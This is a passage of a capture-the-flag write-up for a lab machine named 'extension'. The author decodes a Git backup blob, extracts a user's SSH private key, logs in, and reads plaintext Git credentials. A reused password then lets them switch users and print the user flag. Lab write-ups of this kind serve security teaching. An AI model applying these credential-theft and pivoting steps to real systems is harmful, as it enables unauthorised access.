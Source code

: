 ```bash
    "encoding": "base64",
    "url": "http://dev.snippet.htb/api/v1/repos/charlie/backups/git/blobs/c25cb9d1f1d83bdad41dad403874c2c9b91d0b57",
    "sha": "c25cb9d1f1d83bdad41dad403874c2c9b91d0b57",
    "size": 4316
}

➜  extension echo "H4sIANO61GEAA [... snip ...]" | base64 -d > backups.tar.gz
➜  extension tar -xvf backups.tar.gz
home/charlie/
home/charlie/backups/
home/charlie/backups/backup.tar.gz
home/charlie/.profile
home/charlie/.bash_history
home/charlie/.bash_logout
home/charlie/.ssh/
home/charlie/.ssh/id_rsa
home/charlie/.ssh/id_rsa.pub
home/charlie/.bashrc

➜  .ssh ssh charlie@extension.htb -i id_rsa 
charlie@extension:~$ id && hostname
uid=1001(charlie) gid=1001(charlie) groups=1001(charlie)
extension

charlie@extension:~$ cat .git-credentials 
http://charlie:MqiereNBGq4DqSVYaC8nazMXzuYqFJ9WPnIZSIWz@dev.snippet.htb
```


### Step 5
User `charlie` doesn't have access to `user.txt`, we still need to pivot to `jean`. 
We noticed earlier that Jean used the same password for Git and Mail, trying to change user with `su jean` proves that she yet again use the same password.

```bash
charlie@extension:~$ su jean
Password: EHmfar1Y7ppA9O5TAIXnYnJpA

jean@extension:~$ id
uid=1000(jean) gid=1000(jean) groups=1000(jean)

jean@extension:~$ cat user.txt
5f1b4312834b32b832925f86933a700b
```


-----------------------
# ROOT
### Step 1
Checking the usual directories and commands for anomalies - `/`, `/opt`, `/tmp`, `/var/www`, `sudo -l`,  `ps aux`, `netstat -tulpn`

